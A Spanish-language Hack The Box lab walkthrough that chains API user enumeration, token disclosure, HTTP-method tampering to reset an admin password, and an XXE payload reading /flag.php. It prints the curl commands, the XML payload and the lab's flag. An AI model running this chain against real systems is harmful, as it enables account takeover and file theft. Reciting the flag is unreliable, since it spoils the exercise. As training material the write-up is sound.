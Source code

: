 # Laboratorio 🔬

1. Nos logueamos en el sitio web con las credenciales que nos da **`HackTheBox`**.
---
2. Una vez aquí veremos que únicamente tenemos acceso a **cambiar nuestra contraseña**, por lo cual interceptaremos esta solicitud con **Burp Suite**

* En la primera petición del servidor vemos que se usa un **API**

<p align="center">
    <img src="./assets/XML/02-API.PNG">
</p>

* Lo que haremos ahora es enumerar usuario válido con esta **API**, la ruta para esto es: `/api.php/user/[UID]`
---
3. Usando un ciclo for enumeramos todos los usuarios en el sitio web
* `for i in $(seq 1 100); do curl -s -X GET "http://[IP]:[Port]/api.php/user/$i" | jq; done`
  * `-X GET`: Método usado para conseguir información sobre un usuario.
  * `| jq`: El **output** de cada consulta lo pasamos a formato **json**.

* **Output**
```json
<SNIP>
{
  "uid": "52",
  "username": "a.corrales",
  "full_name": "Amor Corrales",
  "company": "Administrator"
}
<SNIP>
```

* Después de muchisimos usuario vemos que **`Amor Corrales`** es la única que tiene como **company** `Administrator`, por lo cual nuestro objetivo ahora es acceder a este perfil.
---
4. Para esto necesitamos el **`token`** de esta usuario, y como vimos en la petición interceptada con **`Burp Suite`**, la ruta para esto es `/api.php/token/[UID]`
* Como ya sabemos el **uid** de **`Amor Corrales`** lo que haremos es ver su **token**
* `curl -s -X GET "http://178.128.45.143:30735/api.php/token/52"`

* **Output**
    ```json
    {"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"} 
    ```
---
5. Si de primeras tratamos de cambiar la contraseña
<p align="center">
    <img src="./assets/XML/03-Error.PNG">
</p>

* Vemos que tenemos un error `Access Denied`, por lo que ahora cambiaremos el método por el cual tramitamos esta petición.

<p align="center">
    <img src="./assets/XML/04-Success.PNG">
</p>

* Con esto, ya cambiamos la contraseña de esta usuario y tenemos sus credenciales `a.corrales:test`
---
6. Nos logueamos con las nuevas credenciales y vemos que tenemos una nueva funcionalidad 

<p align="center">
    <img src="./assets/XML/05-Pwned.PNG" width=410>
</p>

---

7. Vamos a 🟦 **`Add Event`** 🟦 , creamos un nuevo **evento** e interceptamos esta solicitud.

<p align="center">
    <img src="./assets/XML/06-XML.PNG" height=200>
</p>

* Vemos la información se tramita por usando **`XML`**.

---
8. Creamos una nueva entidad que nos permita leer el contenido del archivo **`/flag.php`**

* **Data**
```xml
<!DOCTYPE evil 
[<!ENTITY pwned SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">]
>
<root>
    <name>&pwned;</name>
    <details>test</details>
    <date>2023-05-31</date>
</root>
```

**Output**
```python
Event 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' has been created.
```
---
9. Ahora decodeamos en **base64** el **output** entre `'` para obtener la **flag** 🏴
```bash
echo -n "PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K" | base64 -d
<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```
